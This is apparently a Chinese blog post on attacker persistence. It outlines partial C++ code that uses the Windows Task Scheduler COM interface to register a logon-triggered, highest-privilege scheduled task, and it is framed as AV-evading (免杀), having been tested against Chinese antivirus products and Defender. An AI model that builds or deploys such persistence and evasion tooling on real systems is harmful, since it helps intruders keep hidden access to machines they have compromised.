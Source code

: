 ```yaml
---
title: 权限维持之「计划任务」
tags: 免杀
---
```

今天分享一个权限维持程序的实现思路，使用c++调用COM组件`ITaskService`，来实现一个免杀权限维持功能。

### 实现原理

程序功能分为三部分，首先是初始化，其次是添加计划任务，最后添加了删除计划任务功能。

以下只展示思路与代码demo

#### 1.Initialization

为了获取到获取 ITaskService 对象以及 ITaskFolder 对象

首先初始化COM接口

```c++
	//  初始化 COM
	hr = CoInitializeEx(NULL, COINIT_MULTITHREADED);

  //  设置 COM security levels.
  hr = CoInitializeSecurity(NULL, -1, NULL, NULL, RPC_C_AUTHN_LEVEL_PKT_PRIVACY, RPC_C_IMP_LEVEL_IMPERSONATE, NULL, 0, NULL);

  //  创建Task Service对象
  hr = CoCreateInstance(CLSID_TaskScheduler, NULL, CLSCTX_INPROC_SERVER, IID_ITaskService, (void**)&pService);
  //  连接到Task Service
  hr = pService->Connect(_variant_t(), _variant_t(), _variant_t(), _variant_t());

  hr = pService->GetFolder(_bstr_t(L"\\"), &pRootFolder);
```

#### 2.CreateTask

首先创建任务定义对象，进行任务创建操作

```c++
 	hr = pService->NewTask(0, &pTask);
```

接着设置注册信息

```c++
	hr = pTask->get_RegistrationInfo(&pRegInfo);
	//作者
	hr = pRegInfo->put_Author(_bstr_t(wszAuthor));
	//描述
	hr = pRegInfo->put_Description(_bstr_t(wszDescription));
```

设置主体信息

```c++
	hr = pTask->get_Principal(&pPrincipal);
  //  设置登陆类型
	hr = pPrincipal->put_LogonType(TASK_LOGON_INTERACTIVE_TOKEN);

  // 设置运行权限
	hr = pPrincipal->put_RunLevel(TASK_RUNLEVEL_HIGHEST);
```

设置任务相关信息

```c++
	hr = pTask->get_Settings(&pSettings);

	hr = pSettings->put_StartWhenAvailable(VARIANT_TRUE);
	hr = pSettings->get_IdleSettings(&pIdleSettings);
```

创建触发器

```c++
	hr = pTask->get_Triggers(&pTriggerCollection);
	hr = pTriggerCollection->Create(TASK_TRIGGER_LOGON, &pTrigger);
```

设置执行操作

```c++
	hr = pActionCollection->Create(TASK_ACTION_EXEC, &pAction);
	hr = pAction->QueryInterface(IID_IExecAction, (void**)&pExecAction);
	//设置程序路径等信息
	hr = pExecAction->put_Path(_bstr_t(wszProgramPath));
	......
```

在ITaskFolder对象注册

```c++
    hr = pRootFolder->RegisterTaskDefinition(_bstr_t(wszTaskName), pTask, TASK_CREATE_OR_UPDATE, _variant_t(), _variant_t(), TASK_LOGON_INTERACTIVE_TOKEN, _variant_t(L""), &pRegisteredTask);
```

#### 3.DeleteTask

直接根据事先写好的名字删除即可

```c++
	hr = pRootFolder->DeleteTask(_bstr_t(TaskName), 0);
```

#### 效果

只测试了几个常见国内以及Defender，更多的没有测试

上述成品已分享至知识星球
